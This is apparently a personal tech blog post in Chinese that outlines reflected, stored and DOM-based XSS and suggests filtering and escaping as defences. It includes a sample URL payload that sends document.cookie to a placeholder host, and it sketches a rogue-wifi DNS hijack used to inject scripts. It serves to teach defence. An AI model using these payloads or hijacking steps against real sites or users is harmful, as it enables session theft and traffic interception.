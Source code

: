 ```yaml
---
title: "[XSS]对于简单的XSS攻击的概念梳理"
layout: post
categories: sddtc tech
date: "2019-09-06"
guid: urn:uuid:28b12cf0-4508-45d1-aaa5-8dde60d94eb5
tags:
  - xss
---
```


### 背景
前阵子想了解一些关于XSS攻击的知识，于是在网上翻阅了一些有关XSS的概念，于是我总结了下来，今天清理电脑的时候发现这篇文章，故提交之。

# XSS - Cross-site scripting
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

## Reflected XSS
主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击

例子：
1. 在搜索框搜索内容或者URL直接写入脚本，`<script>alert('handsome boy')</script>`, 点击搜索或者回车。
2. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
3. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```markdown
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
PS：这个地址当然是没效的，只是举例子而已。
```

结论：
如果第3步能做成功，才是个像样的XSS攻击。

开发安全措施：
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽


## Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行

例子：
1. 发一篇文章，里面包含了恶意脚本

```markdown
今天天气不错啊！  
<script>alert('handsome boy')</script>
```

2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

因为大部分文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。

结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

## DOM-based or local XSS
基于DOM或本地的XSS攻击。
一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

例子：
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

https://www.cnblogs.com/index-html/p/wifi_hijack_3.html
